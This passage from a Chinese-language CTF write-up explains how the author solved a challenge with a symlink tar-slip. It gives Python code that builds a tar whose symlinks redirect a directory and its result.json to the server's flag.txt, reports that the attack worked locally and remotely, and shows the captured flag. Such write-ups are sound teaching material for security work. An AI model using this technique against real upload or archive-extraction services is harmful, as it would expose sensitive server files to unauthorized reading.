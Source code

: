 先随便传一个`tar`，可以得到对应的`results`目录为`/results/597a328d-ad98-4026-9552-ff4e7f673f85`

接下来上传的`tar`中的两个软链接，一个是从`/aaa`指向这个`results/<uuid>`目录的，一个是从`/aaa/result.json`指向`flag.txt`。
```
import os
import tarfile
import tempfile

with tempfile.TemporaryDirectory() as dir:
    os.symlink('/web-apps/src/archives/597a328d-ad98-4026-9552-ff4e7f673f85', f'{dir}/aaa')
    os.symlink('/web-apps/src/flag.txt', f'{dir}/bbb')
    with tarfile.open('exp.tar', 'w') as f:
        f.add(f'{dir}/aaa', 'aaa')
        f.add(f'{dir}/bbb', 'aaa/result.json')
```

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230717145141.png)

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230717145152.png)

本地成功复现

其实就是先把目录软链接过去，这样对应的`result.json`也就相应的被替换成对应的软连接

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230717145427.png)

远程也一样打通
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230717145707.png)

`crew{fixing_zip/tar_slip_vulnerability_is_hard}`


